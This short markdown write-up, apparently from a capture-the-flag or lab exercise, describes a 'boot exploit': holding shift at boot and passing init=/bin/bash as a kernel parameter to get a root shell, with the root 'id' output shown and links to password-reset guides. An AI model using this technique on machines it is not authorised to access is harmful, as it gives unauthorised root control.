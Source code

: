 # Boot exploit

During boot, we can press `shift` for bios, it will bring up the boot menu in
single-user mode which allow us to choose a boot and pass init=/bin/bash as
kernel parameters


Step 1 :
- Hold shift during boot

Step 2 :
- live init=/bin/bash

root@BornToSecHackMe:/# id
uid=0(root) gid=0(root) groups=0(root)


docs :

https://wiki.archlinux.org/index.php/Reset_lost_root_password

https://askubuntu.com/questions/92556/how-do-i-boot-into-a-root-shell

https://www.vultr.com/docs/reset-the-root-password-on-debian

